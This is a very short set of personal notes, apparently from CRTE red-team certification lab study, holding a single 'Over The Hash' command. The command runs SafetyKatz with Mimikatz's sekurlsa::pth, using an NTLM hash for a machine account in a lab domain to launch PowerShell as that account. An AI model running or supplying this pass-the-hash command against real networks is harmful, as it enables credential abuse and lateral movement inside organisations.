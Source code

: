 Dooooooooooooooooooooooooooooooooo 24/2/2024







# CRTE Over The Hash command 
.\SafetyKatz.exe "sekurlsa::pth /user:PAWSRV$ /domain:CITADEL.CORP /ntlm:e19f980f68ca43cbb88bec510aaf4b44 /run:powershell.exe" 

